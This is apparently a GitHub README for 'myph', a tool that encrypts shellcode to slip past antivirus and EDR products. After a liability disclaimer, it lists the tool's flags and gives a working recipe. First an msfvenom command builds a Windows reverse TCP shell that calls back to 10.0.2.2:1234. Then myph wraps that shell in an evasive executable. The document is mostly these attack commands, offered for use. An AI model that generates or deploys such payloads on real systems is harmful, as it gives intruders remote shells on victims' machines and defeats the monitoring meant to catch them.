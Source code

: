 # myph

AV/EDR bypass payload creation tool

## Disclaimer

The access to and the use of the information on this repository is free of charge,
but implies the tacit acceptance by the user of the following conditions, without prejudice to the applicable legal provisions.
The user acknowledges that this repository is intended for informational purposes only and therefore serves only
for general information and testing. The tool and this repository are carefully compiled on the basis of good sources and references.

However, the developers cannot be held liable for for any damage, direct or indirect, of whatever nature as a result of
or related to the access to or use of the software.

## Usage

```bash
myph --help
In loving memory of Wassyl Iaroslavovytch Slipak (1974 - 2016)

Usage:
  myph [flags]

Flags:
  -r, --arch string          architecture compilation target (default "amd64")
  -e, --encryption encKind   encryption method. (allowed: AES, RSA, XOR) (default AES)
  -h, --help                 help for myph
  -k, --key string           encryption key, auto-generated if empty. (if used by --encryption-method)
  -o, --os string            OS compilation target (default "windows")
  -f, --outdir string        output directory (default "myph-out")
  -s, --shellcode string     shellcode path (default "msf.raw")
  -v, --version              version for myph
```


This tool uses the CRT method. If you don't know what that is, go check out [this repository](https://github.com/CMEPW/BypassAV) :)~

Generate a payload like so:

```bash
# generate your payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.2 LPORT=1234 -f raw -o msf.raw

# run myph (--shellcode is not mandatory here because we use the default value)
./myph --shellcode msf.raw --outdir something

# you should find your payload here
file ./something/payload.exe
```
